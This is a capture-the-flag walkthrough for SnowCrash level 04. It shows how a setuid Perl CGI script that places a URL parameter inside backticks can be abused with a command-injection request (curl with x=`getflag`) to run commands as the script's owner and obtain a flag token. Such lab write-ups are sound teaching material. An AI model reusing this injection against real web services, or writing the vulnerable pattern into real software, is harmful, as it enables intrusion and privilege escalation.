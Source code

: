 # Level 04

## Vulnerability
Privilege escalation - CGI code injection

## Context
In our home directory, we find a binary ```level04.pl```

## Solution
```
level04@SnowCrash:~$ ls -l
-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl
```
Here we see that when we run this Perl script, we run it with owner flag04 permissions (setuid bit 's'). We don't have the permissions to run getflag directly, but maybe we can get this Perl script to run getflag for us.

Let's investigate the script.
```
level04@SnowCrash:~$ cat level04.pl
#!/usr/bin/perl
# localhost:4747                        ## port hint
use CGI qw{param};                      ## set up a Common Gateway Interface
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;                 ## print the output of the echo command, command substitution (backticks)
}
x(param("x"));                          ## Accept one argument "x"
```
So we should run this script with one argument "x". Lets try an example.
```
level04@SnowCrash:~$ ./level04.pl x="whoami"
whoami
```
if we use backtick notation, we can pass a command and ensure it's run and its output captured and echoed.
```
level04@SnowCrash:~$ ./level04.pl x=`whoami`
level04
```
Lets try running it on port 4747 as suggested.
```
level04@SnowCrash:~$ curl '{VM_IP}:4747/level04.pl?x=`whoami`'
flag04
```
Great, now we are executing as flag04. lets try executing getflag.
```
level04@SnowCrash:~$ curl '{VM_IP}:4747/level04.pl?x=`getflag`'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```
